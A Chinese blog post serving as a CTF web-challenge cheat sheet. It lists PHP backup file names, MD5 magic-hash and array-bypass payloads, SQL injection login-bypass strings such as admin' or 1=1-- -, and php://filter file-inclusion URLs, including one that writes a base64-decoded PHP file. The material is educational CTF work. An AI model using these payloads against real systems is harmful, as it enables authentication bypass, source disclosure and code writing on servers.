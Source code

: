 ```yaml
---
layout: post
title: "CTF WEB 常见思路"
date: 2019-3-13 20:49:43
author: co0ontty
categories: CTF WEB ALL
tags: CTF WEB ALL 
describe: CTF WEB 题中常见思路 
---
```

## php 备份文件
1.index.php.bak
2.index.php~
3.index.php.swp
## md5 比较  
### 弱比较
md5 弱比较，为 0e 开头的会被识别为科学记数法，结果均为 0
#### 代码
![Alt text](https://upload-images.jianshu.io/upload_images/7373593-c5c805c77aab67ee.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/766/format/webp)
#### Payload
param1=QNKCDZO&param2=aabg7XSs
### 强比较  
md5 强比较，此时如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值，而且不会报错，就会得到===强比较的值相等
#### 代码
![Alt text](https://upload-images.jianshu.io/upload_images/7373593-e54981f5bd5f3c95.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/782/format/webp)
#### Payload
param1[]=111&param2[]=222
## SQL 注入万能密码
用户名：admin' or 1=1-- -
密码任意
用户名：admin '#
密码任意
## 文件包含
### 常见格式  
http://119.23.73.3:5001/web8/index.php?file=flag.php
### php 伪协议读源码
http://119.23.73.3:5001/web8/index.php?
file=php://filter/read=convert.base64-encode/resource=flag.php
### 利用 php 伪协议来写入文件
file=php://filter/write=convert.base64-decode/resource=./tmp.php&c=aPD9waHAgZWNobyhmaWxlX2dldF9jb250ZW50cygiZmxhZy5waHAiKSk7Pz4=
